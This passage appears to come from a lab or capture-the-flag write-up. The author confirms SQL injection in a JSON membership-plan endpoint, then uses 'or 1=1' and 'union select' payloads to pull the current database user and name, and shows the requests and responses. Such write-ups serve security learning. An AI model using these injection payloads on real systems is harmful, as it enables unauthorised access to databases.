     
    
    > {"message":"available","params":"3'", "token": "904351cd5aa1e6c03dd19594dd915a1e5d1b9ec2fe393a1b8613901a03ea0ab5"}
    < {"status":"200","message":"I'm sorry, this membership plan is currently unavailable.","token":"ea2663615bfd00c6bb3f4638d6de15324b231a65df3d431633701a187a859c7f","debug":"[id: 3']"}
    

The `debug` output shows that it just handled the `id` as `3'`. Thinking about
it, given that this query is matching on an int and not a string, it doesn’t
make sense to try to close the `'` or `"`. The SQL on the server likely looks
like:

    
    
    SELECT id, name from plans where id = {input};
    

I’ll try to send a plan I know doesn’t exist (like 3) and then some logic to
get a result back anyway:

    
    
    > {"message":"available","params":"3 or 1=1 limit 1", "token": "c7b7380052ae1f879ea21abc2bccf2e6fbed9bd0591cef8a33ae4847646bb1a1"}
    < {"status":"200","message":"Good news! This membership plan is available.","token":"6159bbf250c19fbee0b57c19557bcc63aa17df9420c03cfd60c26825b336cf2b","debug":"[id: 1, name: 1-month]"}
    

That worked! The `or 1=1` would make all the rows return, and then the `limit
1` just gets the top (since it’s almost certainly expecting only one). It
actually works the same without the `limit`:

    
    
    > {"message":"available","params":"3 or 1=1", "token": "6159bbf250c19fbee0b57c19557bcc63aa17df9420c03cfd60c26825b336cf2b"}
    < {"status":"200","message":"Good news! This membership plan is available.","token":"276d1d23f8ff41e50b92813f3ea84dd6b0bc8751a98593ee2ef8dad4cf02d716","debug":"[id: 1, name: 1-month]"}
    

This is confirmed SQL injection.

#### Union Injection

First I’ll need to find the number of columns, and I correctedly guessed it
was two:

    
    
    > {"message":"available","params":"3 union select 1,2", "token": "276d1d23f8ff41e50b92813f3ea84dd6b0bc8751a98593ee2ef8dad4cf02d716"}
    < {"status":"200","message":"Good news! This membership plan is available.","token":"f9b5fbc2a75ab1a5066af29319b5b6e57a990ffa1b010a03d7592336a26906bb","debug":"[id: 1, name: 2]"}
    

I can get things like the current user and current database:

    
    
    > {"message":"available","params":"3 union select user(),database()", "token": "f9b5fbc2a75ab1a5066af29319b5b6e57a990ffa1b010a03d7592336a26906bb"}
    < {"status":"200","message":"Good news! This membership plan is available.","token":"1f607be2cd84c55a7df548f93a8bf862c45639a81f518e3ad5cffdae091f9ebc","debug":"[id: crossfit_user@localhost, name: crossfit]"}
    
